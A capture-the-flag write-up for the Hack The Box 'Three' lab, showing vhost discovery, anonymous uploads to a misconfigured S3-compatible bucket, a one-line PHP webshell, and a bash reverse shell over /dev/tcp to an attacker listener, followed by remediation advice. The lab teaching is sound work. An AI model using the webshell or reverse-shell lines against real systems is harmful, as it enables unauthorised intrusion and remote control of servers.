

# Three (Starting Point)

| | |
|---|---|
| **Platform** | HTB — Starting Point (Tier 1) |
| **OS** | Linux |
| **Difficulty** | Very Easy |
| **Status** | Starting Point (free, public guidance) ✅ |
| **Tags** | `web` `vhost` `cloud` `s3` `misconfiguration` `webshell` |

> A subdomain fronts an S3-compatible bucket that accepts anonymous uploads. The bucket *is* the web root, so uploading a PHP webshell gives command execution.

---

## Attack chain



---

## Recon & vhost discovery

```bash
nmap -sCV $RHOST
echo "$RHOST thetoppers.htb s3.thetoppers.htb" | sudo tee -a /etc/hosts

gobuster vhost -u http://thetoppers.htb --append-domain \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

Finds `s3.thetoppers.htb` — an **S3-compatible** object storage endpoint (LocalStack-style).

## Foothold — misconfigured bucket

The AWS CLI needs *some* credentials to sign requests, but this endpoint doesn't validate them:

```bash
aws configure            # any values, e.g. temp / temp
aws --endpoint-url=http://s3.thetoppers.htb s3 ls
aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

The bucket listing contains `index.php` — the site's own files. Writable bucket + bucket served as web root = upload code:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint-url=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
curl 'http://thetoppers.htb/shell.php?cmd=id'
```

Upgrade to a reverse shell:

```bash
nc -nlvp 4444
curl 'http://thetoppers.htb/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.X/4444%200%3E%261%22'
```

The flag is at `/var/www/flag.txt`.

---

## Why it works

Cloud storage permissions and web-server permissions are two separate systems. Here the bucket policy allowed anonymous **write**, and the web server executed whatever landed in it — a classic "bucket as web root" misconfiguration.

## Remediation

- Bucket policy: no anonymous write (and ideally no anonymous list).
- Serve static content from a bucket only with PHP execution disabled; never execute uploaded objects.
- Require valid IAM credentials and block public access settings.

## References

- AWS CLI `--endpoint-url` usage
- HTB Starting Point — Three
